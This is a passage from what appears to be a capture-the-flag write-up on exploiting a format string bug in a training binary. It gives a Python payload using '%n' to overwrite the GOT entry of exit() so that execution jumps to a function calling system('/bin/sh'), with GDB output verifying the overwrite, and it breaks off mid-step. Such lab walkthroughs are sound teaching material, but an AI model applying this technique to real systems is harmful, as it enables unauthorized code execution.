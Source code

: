 Look for the sequence `08049838` in the output. It usually appears at the 4th stack argument, so we will use `%4$n`.

---

### Step 5: Perform the Overwrite with `%n`

We will use `%n` to write the value `0x080484a4` (decimal: `134513828`) to the GOT entry of `exit()`.

To avoid counting the 4 bytes of the address, we subtract from the total:

```bash
python -c 'print("\x38\x98\x04\x08" + "%134513824d" + "%4$n")' > /tmp/exploit
```

---

### Step 6: Verify Overwrite and Trigger

Place a breakpoint at `exit()` and `o()`:

```gdb
(gdb) break *0x080484a4   # entry of o()
(gdb) run < /tmp/exploit
```

Check that the GOT has been overwritten:

```gdb
(gdb) x/wx 0x08049838
0x8049838 <exit@got.plt>:       0x080484a4
```

Now `exit()` will jump into `o()` and reveal the flag.

---

### Step 7: Confirm Shell Execution

The function `o()` executes the following instruction:

```asm
0x080484aa <+6>:    movl   $0x80485f0,(%esp)
```

This means the string passed to `system()` is located at address `0x080485f0`. We can confirm it in GDB:

```gdb
(gdb) x/s 0x080485f0
0x80485f0:  "/bin/sh"
```

Unlike in level4, the binary here does not run a `cat` command. Instead, it invokes a non-interactive shell. Since the exploit is run with redirected input or within GDB, `/bin/sh` immediately exits and does not display anything.

To observe the shell behavior outside of GDB, use:
